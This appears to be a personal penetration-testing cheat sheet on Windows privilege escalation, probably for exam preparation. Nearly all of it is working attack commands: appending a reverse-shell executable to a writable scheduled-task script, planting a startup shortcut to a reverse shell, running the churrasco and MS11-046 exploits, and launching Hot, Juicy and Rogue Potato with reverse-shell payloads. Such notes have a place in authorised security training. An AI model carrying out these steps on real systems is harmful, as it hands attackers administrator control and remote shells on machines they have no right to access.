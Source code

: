                 > echo "cGFzc3dvcmQxMjM=" | base64 -d
    - Scheduled Tasks
        - List all tasks
            > schtasks /query /fo LIST /v
        - Check permissions on a script
            > .\accesschk.exe /accepteula -quv user "C:\Devtools\CLeanup.ps1"
        - Append to it
            > echo |set p=/"C:\PrivEsc\reverse2.exe" >> "C:\Devtools\CLeanup.ps1"
    - Admin from GUI
        - Find a symoblic links (Note this is difficult)
            > dir /AL /S C:\ 
               - look for any target "C:\Windows\System32\runas.exe0
        - for paint 
            - File > Open > "file://c:/windows/system32/cmd.exe"
    - Startup Apps
        - verify
            > .\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
        - Adjsut ~/notes/exam/binaries/Windows/CreateShortcut.vbs to location of reverse shell.exe
            > cscript CreateShortcut.vgs
        - wait for user to login. 

    - For w2k3
        - Use churrasco
            - perform a "whoami /priv" "SeImpersonatePrivilege" must be enabled
            > .\churrasco.exe "cmd.exe"
            > .\churrasco.exe "c:\windows\system32\cmd.exe"
        - Use MS11_46_k8.exe to create user: "k8team" with password: "k8team"
            > .\MS11_46_k8.exe
    - Site of precompiled windows exploits
        - https://github.com/SecWiki/windows-kernel-exploits
    - Create new logon session (need creds for user)
        > runas /user:domain\username cmd.exe
        > runas /user:domain\username /netonly cmd.exe
    - Potatoes!
        - HotPotato: (Will work on windows 7,8, and early version of 10)
            - -ip = current windows ip
            - -cmd = command to run
                > potato.exe -ip 192.168.1.33 -cmd "C:\PrivEsc\reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true
        - JuicyPotato: (Patched on latest versions of Windows10)
            - You must perform "whoami /priv" first, and "SeImpersonatePrivilege" must be enabled (possibly "SeAssignPrimaryToken" as well).
            - Need to check version of Windows with "powershell -c Get-ComputerInfo -Property "WindowsVersion"", if its 1809 or higher, this will not work
            - Go to this site to gather a CLID to use http://ohpe.it/juicy-potato/CLSID/
                - You can also download the "GetCLSID.ps1" and "Join-Object.ps1" to the victim and gather the data with
                    > powershell .\GetCLSID.ps1
            - Check which ports are available to use (Used for -l)
                > netstat -ano
            - Create your reverse shell and listen and run the following command:
            > JuicyPotato.exe -l 5837 -p c:\inetpub\wwwroot\reverseshellpayload.exe -t * -c {F087771F-D74F-4C1A-BB8A-E16ACA9124EA}
            Windows Server 2008
            > JuicyPotato.exe -l 5837 -p c:\ColdFusion8\runtime\bin\rs_x64_win.exe -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
        - RougePotato:
            - You must perform "whoami /priv" first, and "SeImpersonatePrivilege" must be enabled (possibly "SeAssignPrimaryToken" as well).
            - Check which ports are available to use with "netstat -ano" (Will be used for -l in RougePotato.exe)
            - ON KALI: Create a reverse shell with msfvenom, choose available port
            - ON KALI: set up a forwarder to 9999. Make sure "192.168.1.155" is the WINDOWS IP. If you port changes you must chnage in RoguePotato script